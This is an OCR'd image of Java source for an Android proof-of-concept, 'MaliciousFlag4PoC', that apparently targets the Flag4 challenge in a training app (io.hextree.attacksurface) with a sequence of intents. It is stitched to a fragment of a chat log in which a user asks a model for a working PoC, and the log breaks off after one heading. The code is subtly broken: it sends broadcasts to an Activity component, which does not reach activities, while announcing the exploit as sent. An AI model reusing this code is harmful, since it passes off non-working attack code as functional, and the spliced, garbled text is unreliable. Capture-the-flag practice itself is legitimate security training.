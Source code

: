 public class MaliciousFlag4PoC extends Activity {

    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";

    private static final String PREPARE_ACTION = "PREPARE_ACTION";
    private static final String BUILD_ACTION = "BUILD_ACTION";
    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");

        // Step 1: Send PREPARE_ACTION
        Intent prepareIntent = new Intent(PREPARE_ACTION);
        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(prepareIntent); // Using sendBroadcast as it's a common way to send intents to exported components
        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION");

        // Step 2: Send BUILD_ACTION
        Intent buildIntent = new Intent(BUILD_ACTION);
        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(buildIntent);
        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION");

        // Step 3: Send GET_FLAG_ACTION
        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);
        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(getFlagIntent);
        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION");

        // Step 4: Send a final intent to trigger success(this) from GET_FLAG state
        // Any intent will work here, let's re-send GET_FLAG_ACTION or an empty intent
        Intent triggerSuccessIntent = new Intent(GET_FLAG_ACTION); // Or new Intent();
        triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(triggerSuccessIntent);
        Log.d("MaliciousFlag4PoC", "Sent final trigger intent.");

        Toast.makeText(this, "Exploit intents sent. Check logs for flag.", Toast.LENGTH_LONG).show();
        finish(); // Close the malicious activity
    }
}


==================== TURN 4/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **Initial Assessment: Android Application Analysis**
